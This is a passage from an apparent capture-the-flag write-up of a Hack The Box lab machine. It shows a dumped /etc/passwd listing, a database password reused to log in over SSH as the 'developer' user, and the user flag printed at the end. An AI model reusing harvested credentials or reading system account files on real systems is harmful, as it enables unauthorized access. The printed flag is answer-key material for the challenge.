 ```bash
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:114:121:MySQL Server,,,:/nonexistent:/bin/false
developer:x:1000:1000:,,,:/home/developer:/bin/bash
```

There was one, I tried connecting as them with the database password.

```bash
$ ssh developer@target
The authenticity of host 'target (10.129.246.135)' can't be established.
ED25519 key fingerprint is SHA256:TgNhCKF6jUX7MG8TC01/MUj/+u0EBasUVsdSQMHdyfY.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'target' (ED25519) to the list of known hosts.
developer@target's password:
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-76-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Jul  7 01:02:28 PM UTC 2023

  System load:  1.111328125       Processes:             159
  Usage of /:   72.6% of 5.81GB   Users logged in:       0
  Memory usage: 8%                IPv4 address for eth0: 10.129.229.38
  Swap usage:   0%

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

3 additional security updates can be applied with ESM Apps.
Learn more about enabling ESM Apps service at https://ubuntu.com/esm


The list of available updates is more than a week old.
To check for new updates run: sudo apt update


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

developer@langmon:~$ cat user.txt
HTB{4lw4y5_upd473_y0ur_plu61n5}
```
